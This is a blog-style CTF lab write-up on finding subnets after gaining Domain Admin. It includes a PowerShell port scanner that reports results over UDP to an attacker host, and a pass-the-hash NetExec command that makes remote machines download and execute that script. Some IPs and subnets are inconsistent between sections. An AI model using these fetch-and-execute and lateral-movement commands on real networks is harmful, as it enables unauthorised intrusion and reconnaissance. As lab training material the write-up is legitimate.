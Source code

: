 ```yaml
---
title: "Hunting Subnets in a CTF Lab"
date: 2024-06-25T13:00:30-06:00
categories:
  - blog
tags:
  - powershell
  - subnets
  - CTF
  - OSCP
---
```


During a recent lab session, I encountered a challenging but exciting task: hunting down subnets. Armed with Domain Admin (DA) privileges on the main domain, I was set to make the exercise an intriguing venture. Despite the inherent lack of operational security (OpSec) safety in my approach, the process was thoroughly engaging.

### **Toolset**

- **PowerShell Scripting**: Utilized for probing subnet addresses.
- **socat**: Employed to listen for incoming UDP traffic.
- **Net-Exec**: Used to execute commands across the network.
- **Web Server**: Used stage our powershell.

### **PowerShell Script**

To efficiently identify open ports across subnet addresses, I crafted a PowerShell script designed to check port 445 (SMB) and report back to my attacker box:

```powershell
$ListenerIP = "10.10.15.252"
$ListenerPort = 5001
$subnet = "172.16.2"
$Ports = @(80, 445, 139, 22, 21, 88, 389, 636, 443, 8080, 8000)
$udpclient = New-Object System.Net.Sockets.UdpClient

1..254 | ForEach-Object {
    $ip = "$subnet.$_"
    Foreach ($p in $Ports) {
        try {
            $socket = New-Object System.Net.Sockets.TcpClient
            $async = $socket.BeginConnect($ip, $p, $null, $null)
            if ($async.AsyncWaitHandle.WaitOne(1000, $false)) {
                $result = "$env:computername - $ip - $p is open`n"
				$udpclient.Send([Text.Encoding]::ASCII.GetBytes($result), $result.Length, $ListenerIP, $ListenerPort)
            } else {
                $result = "$env:computername - $ip - $p is closed`n"
				# $udpclient.Send([Text.Encoding]::ASCII.GetBytes($result), $result.Length, $ListenerIP, $ListenerPort)
            }
            $socket.Close()
        } catch {
            $result = "$env:computername - $ip - $p encountered an error`n"
            $udpclient.Send([Text.Encoding]::ASCII.GetBytes($result), $result.Length, $ListenerIP, $ListenerPort)
        }
    }
}
$udpclient.Close()
```

### Socat Command

For real-time result collection, socat was configured to listen on UDP port 5001:

```bash
socat UDP-RECV:5001 STDOUT
```

### NXC Command

```bash
nxc smb 172.30.1.0/24 -u DA -H 700168xxxxxxxx39bd67e0 -x 'powershell -c "iex (iwr http://10.10.45.252:8000/tools/psscan.ps1 -usebasic)"'
```

### The Output

```bash
DC01 - 172.16.2.100 - 445 is closed
FS01 - 172.16.2.100 - 445 is closed
DC01 - 172.16.2.101 - 445 is closed
DC01 - 172.16.2.102 - 445 is open
FS0 - 172.16.2.101 - 445 is closed
FS01 - 172.16.2.102 - 445 is closed
MS01 - 172.16.2.100 - 445 is closed
WIN01 - 172.16.2.100 - 445 is closed
MS01 - 172.16.2.101 - 445 is closed
WIN01 - 172.16.2.101 - 445 is closed
WSADM1 - 172.16.2.100 - 445 is closed
MS01 - 172.16.2.102 - 445 is closed
WIN01 - 172.16.2.102 - 445 is closed
WSADM1 - 172.16.2.101 - 445 is closed
WSADM1 - 172.16.2.102 - 445 is closed
SQL01 - 172.16.2.100 - 445 is closed
SQL01 - 172.16.2.101 - 445 is closed
SQL01 - 172.16.2.102 - 445 is closed
```

### Conclusion
While not necessarily OpSec safe, this exercise was a fun and effective way to explore and understand the network layout and security posture regarding SMB ports within the lab's domain. The use of automated scripts and real-time data exfiltration offered a dynamic approach to network exploration.

We can easily adapt the ports to check, or even nest another For loop to add checking for multiple subnets.  I already had an idea of what i was going to find, and was only interested in the existence of the subnet, so i opted for only port **(Updated the script since)** and was content with running this multiple times to get what i needed.
